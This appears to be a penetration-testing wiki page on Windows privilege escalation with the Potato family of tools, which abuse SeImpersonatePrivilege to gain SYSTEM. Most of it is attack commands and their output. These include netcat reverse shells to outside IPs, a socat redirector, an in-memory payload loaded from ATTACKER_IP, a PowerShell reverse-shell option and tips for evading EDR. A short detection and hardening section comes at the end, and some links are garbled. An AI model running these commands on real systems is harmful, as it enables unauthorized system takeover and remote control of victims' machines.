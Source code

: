 # RoguePotato, PrintSpoofer, SharpEfsPotato, GodPotato


> [!WARNING]
> **JuicyPotato doesn't work** on Windows Server 2019 and Windows 10 build 1809 onwards. However, [[https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)**,** [**GodPotato**](https://github.com/BeichenDream/GodPotato)**,** [**EfsPotato**](https://github.com/zcgonvh/EfsPotato)**,** [**DCOMPotato**](https://github.com/zcgonvh/DCOMPotato|**PrintSpoofer**]]** can be used to **leverage the same privileges and gain `NT AUTHORITY\SYSTEM`** level access. This [[https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/|blog post]] goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

> [!TIP]
> A modern alternative frequently maintained in 2024–2025 is SigmaPotato (a fork of GodPotato) which adds in-memory/.NET reflection usage and extended OS support. See quick usage below and the repo in References.

Related pages for background and manual techniques:

[[seimpersonate-from-high-to-system.md]]

[[from-high-integrity-to-system-with-name-pipes.md]]

[[privilege-escalation-abusing-tokens.md]]

## Requirements and common gotchas

All the following techniques rely on abusing an impersonation-capable privileged service from a context holding either of these privileges:

- SeImpersonatePrivilege (most common) or SeAssignPrimaryTokenPrivilege
- High integrity is not required if the token already has SeImpersonatePrivilege (typical for many service accounts such as IIS AppPool, MSSQL, etc.)

Check privileges quickly:

```cmd
whoami /priv | findstr /i impersonate
```
```
Operational notes:

- PrintSpoofer needs the Print Spooler service running and reachable over the local RPC endpoint (spoolss). In hardened environments where Spooler is disabled post-PrintNightmare, prefer RoguePotato/GodPotato/DCOMPotato/EfsPotato.
- RoguePotato requires an OXID resolver reachable on TCP/135. If egress is blocked, use a redirector/port-forwarder (see example below). Older builds needed the -f flag.
- EfsPotato/SharpEfsPotato abuse MS-EFSR; if one pipe is blocked, try alternative pipes (lsarpc, efsrpc, samr, lsass, netlogon).
- Error 0x6d3 during RpcBindingSetAuthInfo typically indicates an unknown/unsupported RPC authentication service; try a different pipe/transport or ensure the target service is running.

## Quick Demo

### PrintSpoofer

```bash
c:\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd"

--------------------------------------------------------------------------------

[+] Found privilege: SeImpersonatePrivilege

[+] Named pipe listening...

[+] CreateProcessAsUser() OK

NULL

```
```
Notes:
- You can use -i to spawn an interactive process in the current console, or -c to run a one-liner.
- Requires Spooler service. If disabled, this will fail.

### RoguePotato

```bash
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -l 9999
# In some old versions you need to use the "-f" param
c:\RoguePotato.exe -r 10.10.10.10 -c "c:\tools\nc.exe 10.10.10.10 443 -e cmd" -f 9999
```
```
If outbound 135 is blocked, pivot the OXID resolver via socat on your redirector:

```bash
# On attacker redirector (must listen on TCP/135 and forward to victim:9999)
socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999

# On victim, run RoguePotato with local resolver on 9999 and -r pointing to the redirector IP
RoguePotato.exe -r REDIRECTOR_IP -e "cmd.exe /c whoami" -l 9999
```
```
### SharpEfsPotato

```bash
> SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/c56e1f1f-f91c-4435-85df-6e158f68acd2/\c56e1f1f-f91c-4435-85df-6e158f68acd2\c56e1f1f-f91c-4435-85df-6e158f68acd2
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

C:\temp>type C:\temp\w.log
nt authority\system
```
```
### EfsPotato

```bash
> EfsPotato.exe "whoami"
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]

[+] Current user: NT Service\MSSQLSERVER
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=aeee30)
[+] Get Token: 888
[!] process with pid: 3696 created.
==============================
[x] EfsRpcEncryptFileSrv failed: 1818

nt authority\system
```
```
Tip: If one pipe fails or EDR blocks it, try the other supported pipes:

```text
EfsPotato <cmd> [pipe]
  pipe -> lsarpc|efsrpc|samr|lsass|netlogon (default=lsarpc)
```
```
### GodPotato

```bash
> GodPotato -cmd "cmd /c whoami"
# You can achieve a reverse shell like this.
> GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
```
Notes:
- Works across Windows 8/8.1–11 and Server 2012–2022 when SeImpersonatePrivilege is present.

### DCOMPotato

![[https://github.com/user-attachments/assets/a3153095-e298-4a4b-ab23-b55513b60caa|image]]

DCOMPotato provides two variants targeting service DCOM objects that default to RPC_C_IMP_LEVEL_IMPERSONATE. Build or use the provided binaries and run your command:

```cmd
# PrinterNotify variant
PrinterNotifyPotato.exe "cmd /c whoami"

# McpManagementService variant (Server 2022 also)
McpManagementPotato.exe "cmd /c whoami"
```
```
### SigmaPotato (updated GodPotato fork)

SigmaPotato adds modern niceties like in-memory execution via .NET reflection and a PowerShell reverse shell helper.

```powershell
# Load and execute from memory (no disk touch)
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData("http://ATTACKER_IP/SigmaPotato.exe"))
[SigmaPotato]::Main("cmd /c whoami")

# Or ask it to spawn a PS reverse shell
[SigmaPotato]::Main(@("--revshell","ATTACKER_IP","4444"))
```
```
## Detection and hardening notes

- Monitor for processes creating named pipes and immediately calling token-duplication APIs followed by CreateProcessAsUser/CreateProcessWithTokenW. Sysmon can surface useful telemetry: Event ID 1 (process creation), 17/18 (named pipe created/connected), and command lines spawning child processes as SYSTEM.
- Spooler hardening: Disabling the Print Spooler service on servers where it isn’t needed prevents PrintSpoofer-style local coercions via spoolss.
- Service account hardening: Minimize assignment of SeImpersonatePrivilege/SeAssignPrimaryTokenPrivilege to custom services. Consider running services under virtual accounts with least privileges required and isolating them with service SID and write-restricted tokens when possible.
- Network controls: Blocking outbound TCP/135 or restricting RPC endpoint mapper traffic can break RoguePotato unless an internal redirector is available.
- EDR/AV: All of these tools are widely signatured. Recompiling from source, renaming symbols/strings, or using in-memory execution can reduce detection but won’t defeat solid behavioral detections.

## References

- [[https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/|https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/]]
- [[https://github.com/itm4n/PrintSpoofer|https://github.com/itm4n/PrintSpoofer]]
- [[https://github.com/antonioCoco/RoguePotato|https://github.com/antonioCoco/RoguePotato]]
- [[https://github.com/bugch3ck/SharpEfsPotato|https://github.com/bugch3ck/SharpEfsPotato]]
- [[https://github.com/BeichenDream/GodPotato|https://github.com/BeichenDream/GodPotato]]
- [[https://github.com/zcgonvh/EfsPotato|https://github.com/zcgonvh/EfsPotato]]
- [[https://github.com/zcgonvh/DCOMPotato|https://github.com/zcgonvh/DCOMPotato]]
- [[https://github.com/tylerdotrar/SigmaPotato|https://github.com/tylerdotrar/SigmaPotato]]
- [[https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/|https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/]]

